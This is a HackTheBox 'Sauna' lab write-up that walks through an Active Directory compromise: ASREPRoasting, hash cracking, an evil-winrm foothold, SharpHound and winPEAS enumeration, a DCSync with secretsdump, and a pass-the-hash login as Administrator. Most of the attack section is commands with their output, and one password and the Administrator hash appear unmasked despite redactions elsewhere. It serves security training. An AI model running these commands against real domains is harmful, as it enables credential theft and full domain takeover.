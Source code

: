 ```yaml
---
title: HTB - Sauna
date: 2024-03-17
categories: [CTF, Fullpwn]
tags: [htb, hackthebox, sauna, nmap, username-generator, username-anarchy, winpeas, getnpusers, hashcat, active-directory, dcsync, asreproasting, bloodhound, sharphound, impacket, secretsdump]
img_path: /assets/htb/fullpwn/sauna
published: true
image:
    path: machine_info.png
---
```


## HTB: Sauna

>[Sauna Box](https://app.hackthebox.com/machines/229)

![](sauna_diagram.png){: .normal}

## Walkthrough Summary

|Step|Action|Tool|Achieved|
|-|-|-|-|
|1|Enumerated web server|[Nmap](https://github.com/nmap/nmap), [Mozilla](https://www.mozilla.org/en-GB/firefox/new/)|Obtained first and last names of potential users|
|2|Created custom username list|[Username-Generator](https://github.com/shroudri/username_generator), [Username-Anarchy](https://github.com/urbanadventurer/username-anarchy)|-|
|3|ASREPRoasting|[GetNPUsers.py](https://github.com/fortra/impacket/blob/master/examples/GetNPUsers.py)|Obtained the TGT ticket of _fsmith_|
|4|Hash cracked|[Hashcat](https://github.com/hashcat/hashcat)|Obtained clear text password|
|5|Logged into the domain via WinRM|[evil-winrm](https://github.com/Hackplayers/evil-winrm)|Obtained initial foothold|
|6|Credentialed domain enumeration|[SharpHound.py](https://github.com/BloodHoundAD/SharpHound), [BloodHound](https://github.com/BloodHoundAD/BloodHound)|Enumerated potential privilege escalation paths|
|7|Executed privileged escalation path|[WinPEAS](https://github.com/carlospolop/PEASS-ng/tree/master/winPEAS)|Obtained credentials of _svc\_loanmgr_|
|8|DCSync attack|[secretsdump.py](https://github.com/fortra/impacket/blob/master/examples/secretsdump.py)|Compromised domain|

## Detailed attack chain reproduction steps

Performed a TCP all-ports scan and noted that:
  * Port 80 is an IIS web server with the title _Egotistical Bank_
  * Port 5985 allows WinRM access

```bash
$ sudo nmap 10.10.10.175 -T4 -A -open -p-

PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
| http-methods:
|_  Potentially risky methods: TRACE
|_http-title: Egotistical Bank :: Home
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2024-03-17 16:06:55Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: EGOTISTICAL-BANK.LOCAL0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49667/tcp open  msrpc         Microsoft Windows RPC
49674/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  msrpc         Microsoft Windows RPC
49717/tcp open  msrpc         Microsoft Windows RPC
49744/tcp open  msrpc         Microsoft Windows RPC
```

Enumerated the web server and created a custom user list based on the names found (Figure 1):

![Figure 1: First and last names found on the site.](sauna_site_users.png?600)

```bash
# created a list with the names found
$ cat site_users
Fergus Smith
Shaun Coins
Hugo Bear
Bowie Taylor
Sophie Driver
Steven Kerb

# created username combinations based on the first and last name
$ username-generator -w site_users > user_gen.lst
$ username-anarchy -i site_users >> user_gen.lst

# deduplicated the generated user list
$ sort user_gen.lst | uniq > user_combined.lst
```

Performed an **ASREPRoasting** attack:

```bash
$ getnpusers EGOTISTICAL-BANK.LOCAL/ -dc-ip 10.10.10.175 -no-pass -usersfile user_combined.lst | grep asrep
$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:b4a<REDACTED>678
```

Cracked the password hash offline:

```bash
$ hashcat -m 18200 fsmith_hash /usr/share/wordlists/rockyou.txt
hashcat (v6.2.6-850-gfafb277e0) starting

<SNIP>

$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:b4a<REDACTED>678:Th<REDACTED>23
```

Logged in via WinRM using and compromised the _**user.txt**_ file:

```bash
# logging in the target
$ evil-winrm -i 10.10.10.175 -u fsmith -p Thestrokes23

<SNIP>

# compromising user.txt
*Evil-WinRM* PS C:\Users\FSmith\Documents> type ../Desktop/user.txt
0f5<REDACTED>48f
```

Collected domain information and generated visual representations of potential attack paths:

```bash
# uploading binary to target
*Evil-WinRM* PS C:\Users\FSmith\Documents> upload SharpHound.exe

Info: Uploading /home/kali/htb/sauna/SharpHound.exe to C:\Users\FSmith\Documents\SharpHound.exe

Data: 965288 bytes of 965288 bytes copied

Info: Upload successful!

# executing binary
*Evil-WinRM* PS C:\Users\FSmith\Documents> .\SharpHound.exe -c all

<SNIP>

2024-03-17T11:42:59.9578257-07:00|INFORMATION|SharpHound Enumeration Completed at 11:42 AM on 3/17/2024! Happy Graphing!

# downlading output files to attack host
*Evil-WinRM* PS C:\Users\FSmith\Documents> download 20240317114259_BloodHound.zip

Info: Downloading C:\Users\FSmith\Documents\20240317114259_BloodHound.zip to 20240317114259_BloodHound.zip

Info: Download successful!
```

The below attack path (Figure 2) required SYSTEM-level access in order to be exploited:

![Figure 2: Potential attack path from fsmith user.](sauna_fsmith_attack_path.png)

A service account with DCSync rights was found (_**svc\_loanmgr**_) (Figure 3):

![Figure 3: A principal with DCSync rights over the domain.](sauna_dcsync_rights.png)

Performed further system enumeration and discovered _svc\_loanmgr_'s **clear text password**:

```bash
*Evil-WinRM* PS C:\Users\FSmith\Documents> upload winPEAS.exe

Info: Uploading /home/kali/htb/sauna/winPEAS.exe to C:\Users\FSmith\Documents\winPEAS.exe

Data: 2549076 bytes of 2549076 bytes copied

Info: Upload successful!
*Evil-WinRM* PS C:\Users\FSmith\Documents> .\winPEAS.exe

<SNIP>

ÉÍÍÍÍÍÍÍÍÍÍ¹ Looking for AutoLogon credentials
    Some AutoLogon credentials were found
    DefaultDomainName             :  EGOTISTICALBANK
    DefaultUserName               :  EGOTISTICALBANK\svc_loanmanager
    DefaultPassword               :  Mon<REDACTED>nd!

<SNIP>
```

Perfomed the **DCSync attack** and obtained the _**Administrator**_'s NTLMv2 hash:

```bash
$ secretsdump egotistical-bank.local/svc_loanmgr@10.10.10.175
Impacket v0.12.0.dev1+20231027.123703.c0e949fe - Copyright 2023 Fortra

Password:
[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
Administrator:500:aad<REDACTED>4ee:823<REDACTED>98e:::
<SNIP>
```

Used _Administrator_'s hash to login via WinRM and compromised the **_root.txt_** file:

```bash
$ evil-winrm -i 10.10.10.175 -u administrator -p aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> type ..\desktop\root.txt
f14<REDACTED>b8d5
```
